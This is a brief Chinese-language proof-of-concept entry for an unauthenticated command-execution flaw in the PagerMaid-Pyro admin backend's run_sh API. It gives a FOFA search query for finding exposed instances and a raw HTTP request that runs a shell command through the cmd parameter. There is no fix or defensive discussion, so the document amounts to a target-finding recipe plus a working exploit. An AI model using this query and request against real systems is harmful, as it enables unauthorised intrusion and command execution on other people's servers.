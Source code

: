 # PagerMaid-Pyro后台管理系统run_sh接口存在未授权命令执行漏洞

# fofa
```
title="PagerMaid-Pyro" && body="href=\"https://xtaolabs.com/pagermaid-logo.png\""
```

# poc
```
GET /pagermaid/api/run_sh?cmd=id HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```
